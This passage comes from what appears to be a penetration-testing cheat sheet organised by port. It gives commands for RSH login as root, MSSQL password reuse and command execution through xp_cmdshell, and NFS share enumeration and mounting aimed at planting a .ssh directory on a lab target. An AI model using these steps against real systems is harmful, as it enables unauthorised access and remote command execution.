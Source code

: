 - Brute-Force

```
Sparta GUI
```

Port 514 (RSH)
---------------

- Rlogin (rsh-client)

```
$ rlogin -l root <IP address>
```

- Brute-Force

```
Sparta GUI
```

Port 1433 (MSSQL)
-----------------

- Password Reuse

```
mssql-cli -S <server URL> -U <username> -P <password>
```

- Execute commands

```
EXEC xp_cmdshell 'dir *.exe'; 
```

Port 2049 (NFS)
---------------

- NFS Server's All Mount Points List 

```
$ showmount -a 192.168.1.132
```

- NFS Server's Directories List

```
$ showmount -d 192.168.1.132
```

- NFS Server's Export List

```
$ showmount -e 192.168.1.132
Export list for 192.168.1.132:
/home/vulnix *
```

- Mount a remote directory

```
$ mkdir -p /mnt/vulnix
$ mount -t nfs 192.168.1.132:/home/vulnix /mnt/vulnix

Check if you can create .ssh directory (if permission denied, that's okay, follow steps below)
$ mkdir -p /mnt/vulnix/.ssh
```
